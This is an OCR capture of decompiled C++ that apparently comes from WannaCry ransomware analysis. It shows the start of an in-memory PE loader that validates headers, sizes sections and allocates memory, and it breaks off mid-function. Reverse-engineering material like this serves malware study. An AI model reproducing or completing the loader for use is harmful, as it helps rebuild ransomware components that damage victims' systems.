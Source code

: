 ```C++
  HANDLE hHeap; 
  CPeBuilder *TmpVar; 
  CPeBuilder *pPeBuilder; 
  IMAGE_NT_HEADERS *PEHeader; 
  DWORD lpEntryPoint; 
  SYSTEM_INFO lpSystemInfo; 
  unsigned int i; 
  LPVOID zeroa; 

  i = 0;
  if ( !WncryCheckFileSize(nFileSize, 64u) )
    return 0;
  if ( fileBuffer->signature != 'ZM' )
    goto LABEL_3;
  if ( !WncryCheckFileSize(nFileSize, *&fileBuffer->reserved2[4] + 248) )
    return 0;
  pPEHead = (fileBuffer + *&fileBuffer->reserved2[4]);
  if ( pPEHead->Signature != 'EP' )
    goto LABEL_3;
  if ( pPEHead->FileHeader.Machine != 0x14C )
    goto LABEL_3;
  dwSectionAlignment = pPEHead->OptionalHeader.SectionAlignment;
  if ( dwSectionAlignment & 1 )
    goto LABEL_3;
  wNumberOfSections = pPEHead->FileHeader.NumberOfSections;
  if ( pPEHead->FileHeader.NumberOfSections )
  {
    data_dir = (&pPEHead->OptionalHeader.SizeOfUninitializedData + pPEHead->FileHeader.SizeOfOptionalHeader);
    do
    {
      sectionSize = data_dir->Size;
      sectionVirtualAddress = data_dir->VirtualAddress;
      if ( sectionSize )
        j = sectionSize + sectionVirtualAddress;
      else
        j = dwSectionAlignment + sectionVirtualAddress;
      if ( j > i )
        i = j;
      data_dir += 5;
      --wNumberOfSections;
    }
    while ( wNumberOfSections );
  }
  hKernel32 = GetModuleHandleA(szKernel32);
  if ( !hKernel32 )
    return 0;
  fpGetNativeSystemInfo = GetProcAddress(hKernel32, aGetnativesyste, 0);
  if ( !fpGetNativeSystemInfo )
    return 0;
  fpGetNativeSystemInfo(&lpSystemInfo);
  nPage = ~(lpSystemInfo.dwPageSize - 1);
  dwSize = nPage & (pPEHead->OptionalHeader.SizeOfImage + lpSystemInfo.dwPageSize - 1);
  if ( dwSize != (nPage & (lpSystemInfo.dwPageSize + i - 1)) )
  {
LABEL_3:
    SetLastError(ERROR_BAD_EXE_FORMAT);
    return 0;
  }
  lpPEFile = VirtualAlloc(pPEHead->OptionalHeader.ImageBase, dwSize, MEM_RESERVE|MEM_COMMIT, PAGE_READWRITE, zero);
  if ( !lpPEFile )
  {
```